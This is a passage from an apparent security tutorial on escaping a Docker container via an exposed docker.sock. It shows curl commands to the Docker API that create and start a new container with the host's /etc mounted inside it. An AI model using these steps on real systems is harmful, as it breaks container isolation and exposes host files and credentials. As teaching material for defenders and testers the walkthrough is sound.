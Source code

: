 We obtain some interesting informations about running containers, such as their names, images, IP addresses, uptime, etc.

It is also possible to inspect a single container, using its ID:

```
root@945784f80056:/# curl -XGET --unix-socket /var/run/docker.sock http://localhost/containers/945784f80056/json
```

The output here is massive, so I'll not show it. But you have more complete informations about the container you asked, as the runtime, the paths on the host...

That's very nice, but we can do more :) Let's create another container from our actual one !

Before sending the request, we need to prepare some JSON that will indicate how the container we are going to spawn will behave. It doesn't have to be complex:

```json
{
    "Image": "debian:buster-slim",
    "Cmd": [
        "/bin/bash"
    ],
    "OpenStdin": true,
    "Mounts": [
        {
            "Type": "bind",
            "Source": "/etc/",
            "Target": "/mount"
        }
    ]
}
```

We establish that we want a container using `debian:buster-slim` image (the same that we are currently using in our vulnerable container), and that we want the first command to be `/bin/bash`. Also, we want to mount `/etc` from the host's filesystem to `/mount`.

Note that we could have use the value `"Privileged": true`, but it's not funny 😁

Now, we minify it and store it in `container.json`:

```
root@945784f80056:/# echo -e '{"Image":"debian:buster-slim","Cmd":["/bin/bash"],"OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/etc/","Target":"/mount"}]}' > container.json
```

Then, we post it to `/containers/create` using POST verb:

```
root@945784f80056:/# curl -XPOST --header "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create
{"Id":"f7365a47d65b5ff0d372191f0dcb55b9ef5823e51cb1fcd20ff420352d116408","Warnings":[]}
```

The daemon sends back the container ID. We can use it to send a new request to start the container:

```
root@945784f80056:/# curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/f7365a47/start
```


[^1]: https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/
[^2]: https://www.kernel.org/doc/html/latest/admin-guide/cgroup-v1/rdma.html
[^3]: https://docs.docker.com/engine/api/